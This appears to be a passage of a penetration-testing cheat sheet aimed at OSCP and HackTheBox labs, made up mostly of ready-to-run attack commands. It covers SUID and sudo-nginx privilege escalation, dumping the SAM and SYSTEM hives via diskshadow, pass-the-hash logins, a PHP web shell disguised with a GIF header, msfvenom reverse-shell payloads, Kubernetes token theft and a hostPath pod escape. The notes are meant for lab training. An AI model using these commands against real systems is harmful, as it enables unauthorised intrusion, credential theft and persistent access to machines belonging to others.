If the SUID is set, we can run the program as the ownership user.

### Find files with the SUID bit set
```shell
 find / -type f -perm -4000 2>/dev/null
```

### Change the ownership and apply the SUID
```shell
chown root:root bash
chmod 4755 bash
```
4000 is the flag to apply the SUID.

### Spawn a shell with the effective UID
```shell
bash -p
```

### Run files with suid
The privileged mode can be run if the suid for the script is enabled. 
For example, if we want to run the script, named '.suid_bash', with root privilege, 
```
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020  .suid_bash
```
we should run the following command: 
```
./.suid_bash -p
```
https://stackoverflow.com/questions/63689353/suid-binary-privilege-escalation


## DNS
### Specify referred DNS server
```
nslookup
server <DNS Server>
```

### Try zone transfer
```shell
dig axfr $Domain  @$IP
dig axfr @$IP
```
[HackTricks - Pentesting DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)


## String Processing
### Remove white spaces
```
sed 's/ //g'
```

## SMB
### smbclient
```console
smbclient -L <target>  # Enumerate sharenames
smbclient //<target>/<sharename>
get <filename>
```
### smbmap
```shell
smbmap -H $IP
```

smbmap outputs the disk name and permissions, such as:
```shell
[+] Guest session       IP: 10.129.13.52:445    Name: friendzone.red                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```
We may access the smb server by using smbclient. For example,
```shell
smbclient //$IP/general
```

### Test auhtneitcation via SMB
Test authentication via SMB protocol
```
crackmapexec smb $IP -u $User  -p $Password --domain $Domain
```

## mount
Mount the Windows directory via CIFS by using mount command.
The advantage is that we can run the command, such as viewing a file, on the linux platform. 
```
mount -t cifs -o username=guest //$IP/<disk> /mnt/<disk>
```


## Extract image from PDF
```shell
pdfimages in.pdf outputimage
```


# Windows command
## Powershell
### Create New file
```
New-Item <filename> -Type File
```

### Display the contents of a text file
```
type <filename>
```

### Get a file via HTTP (equivalent to wget)
```
Invoke-WebRequest -Uri http://example.com/file.zip -OutFile C:\path\to\save\file.zip
```
```
iwr http://example.com/file.zip -OutFile C:\path\to\save\file.zip
```

### Check privilege
```
whoami /priv
```

### Privilege escalation for SeBackupPrivilege / SeRestorePrivilege
In general, we cannot read the system file, such as SAM and SYSTEM.
However, these privileges privide the bypass to copy the files for backup by using diskshadow.

For example, we implements the script.
```powershell
set context persistent nowriters
set metadata "C:\TempShadow\mydrive.cab"

begin backup
add volume c: alPias mydrive
create
expose %mydrive% z:
end backup

```

Run this script on Powershell
```
diskshadow /s script
```

After diskshadow, the backup copy script is implemented as follows:
[BackupCopy.ps1](tools/BackupCopy/BackupCopy.ps1)

Finally, run BackupCopy.ps1.
```
powershell -File BackupCopy.ps1 -Source "Z:\Windows\System32\Config\SYSTEM" -Destination "C:\TempShadow\SYSTEM.copy"

powershell -File BackupCopy.ps1 -Source "Z:\Windows\System32\Config\SAM" -Destination "C:\TempShadow\SAM.copy"
```

## Pass-the-Hash Attack
Windows sends the NTLM Hash instead of plain password.

We don't have to know the plain password to logon.
```
psexec.py -hashes :$Hash $User@$IP
```
Our best friend, called ChatGPT, said that wmiexec.py, Evil-WinRM, crackmapxec can also logon by using NTLM hash.


# Python
## Run HTTP Server
### python3
```
python -m http.server <port>
```
### python2
```
python -m SimpleHTTPServer <port>
```

## break pyjail
https://blog.pepsipu.com/posts/albatross-redpwnctf
https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md

## Remote Access
### wmiexec.py
[wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
```
wmiexec.py $Domain/$User:$Password@$IP
```

### evil-winrm
```
evil-winrm -i $IP -u $User -p $Password
```


## Run system command by using dynamic import
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```

## Exploitable python functions
### Python2
#### input()
The input() function in Python2 is known to be insecure, as it acts similar to the eval(). 
Reference: [HackTheBox "UpDown" Writeup](https://app.hackthebox.com/machines/Busqueda/writeups)
Example:
```python
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
print "Website is up"
else:
print "Website is down"
```
This script uses input(). When asking for input, we can exploit this by using the following commands.
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```

# PHP
## Detect exploitable function (e.g. RCE)
dfunc-bypasser detects exploitable legacy function.
Python3.
https://github.com/rootsecdev/dfunc-bypasser

Python2 (original):
https://github.com/teambi0s/dfunc-bypasser/tree/master

```
python dfunc-bypasser.py --url https://example.com/phpinfo.php
```

## phar
phar is achived PHP files.
We can access ``phar://<phar file>/<.php filename>``

# Reverse shell
## php-reverse-shell
```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

## Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## GIF89a
https://github.com/Rajchowdhury420/OSCP-CheatSheet/blob/main/Reverse-Shell-via-JPG.md
```shell
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## Listening the port for reverse shell
[penelope](https://github.com/brightio/penelope) is a shell handler.
```shell
python penelope.py 1234
```


## Metasploit
Refer  [msfvenom](#msfvenom)
# Metasploit
## meterpreter
## Get system info
```
sysinfo
```
### Start shell
```
shell
```

### Upload file from Metasploit host to target
```
upload <filepath>
```

### Download file from target to Metasploit host
```
download <filepath>
```

### Load powershell and run
```
load powershell
powershell_shell
```
## msfvenom
This tool creates a payload, such as reverse shell, embedded in a file.

### Windows
#### exe
```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -e x86/shikata_ga_nai -f exe -o evil.exe
```
#### exe-service
```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -e x86/shikata_ga_nai -f exe-service -o evil.exe
```

# Nginx
## Malicious conf file to get root privilege
Check running the nginx by using sudo:
```shell
sudo -l

(ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Create the following conf file to access '/':
```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
    worker_connections 768;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;

        dav_methods PUT;
    }
}
```

Run the nginx by using malicious conf file.
```
sudo nginx -c /tmp/exploit.conf
```

Then, we can get a file by curl command.
``` shell
curl 127.0.0.1:1337/root/root.txt
```
or access the target by ssh with root privilege:
```
ssh-keygen
<snip...>

curl -X PUT 10.129.230.87:1337/root/.ssh/authorized_keys --upload-file root.pub
ssh -i root root@<target ip>
```

# Kubernetes (k8s)
## Get a list of pods
The pods information are extracted from the following URL (kubelet).
```
https://$IP:10250/pods
```

## Get token
Location of token:
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

If the RCE vulnerability is existed, the token is obtained by:
```shell
kubeletctl --server $IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
```
Note that `nginx` is an example for k8s service.

## Get certificate
Location of cert
```
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```
If the RCE vulnerability is existed, the certificate is obtained by:
```shell
kubeletctl --server $IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```
Note that `nginx` is an example for k8s service.

## Get a list of pods
[Enumerate pods (kubectl)](#enumerate-pods-kubectl)

## Get allowed operations on resources
```shell
kubectl --token=$token --certificate-authority=ca.crt -server=http://$IP:8443 auth can-i --list
```
## Applying the image
### Example for yaml
This example is applying nginx and mouted in `/mnt`.
Ref: https://hackthur.medium.com/htb-steamcloud-writeup-3eab1049daf2
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: arthur-pod
  namespace: default
spec:
  containers:
  - name: arthur-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: arthur-privesc
  volumes:
  - name: arthur-privesc
    hostPath:
      path: /
```

### applying the configuration and image
```shell
kubectl --token=$token --certificate-authority=ca.crt -server=https://$IP:8443 apply -f f.yaml
```


# BurpSuite
## Hot Keys
https://github.com/rinetd/BurpSuite-1/blob/master/CheatSheet.md

## Brute force attack by intruder
1. Right click on the request 
2. "Send to Intruder"
3. select the value you want to change by brute force
4. "Add $"
5. Focus on the "Payload" and configure the brute force payloads, such as "Numbers" and "Simple list", etc...
6. "Start Attack:
Note1: URL-encode special-characters may need to be disabled.
Note2: Focus the response size. If there is a request whose length is different, this request may become important information.




# GraphQL
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql

# Others

## References for OSCP
### GTFOBins
This website is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.  
https://gtfobins.github.io/

## Word List
### SecLists
https://github.com/danielmiessler/SecLists

### Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
#### php-reverse-shell
https://github.com/pentestmonkey/php-reverse-shell

#### Groovy Reverse shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

NOTE: This shell is abused in Jenkis Groovy Script Console.
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

### HTML Security CheatSheet
https://html5sec.org/
This cheat sheet shows the XSS payloads against each browser.

## References for vulnerabilities
### Shellshock (CVE-2014-6271)
https://blog.cloudflare.com/inside-shellshock/

## Kali linux on docker for Mac
https://5kyr153r.hatenablog.jp/entry/2022/11/14/104548 (Japanese)
https://www.kali.org/docs/general-use/novnc-kali-in-browser/


# LICENSE
MIT

